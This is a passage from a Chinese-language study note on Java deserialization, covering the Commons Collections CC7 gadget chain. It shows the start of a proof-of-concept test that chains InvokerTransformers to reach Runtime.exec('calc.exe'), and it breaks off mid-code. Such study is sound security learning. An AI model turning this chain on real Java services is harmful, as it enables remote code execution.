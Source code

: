     ![image-20241002182335760](Serialization-Java/image-20241002182335760.png)
    可以看到，其会调用 `key.hashCode()`；这和 CC6 中的 `HashMap` 一样。

### 11.2 PoC 编写

1. 把 CC6 拿过来，基本改一改就出来了：
    ```java
    // cc 4.0
    @Test
    public void testCC7() throws Exception {
        // 1. 构造链 sink
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer<>(Runtime.class),
                new InvokerTransformer<>("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer<>("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer<>("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
        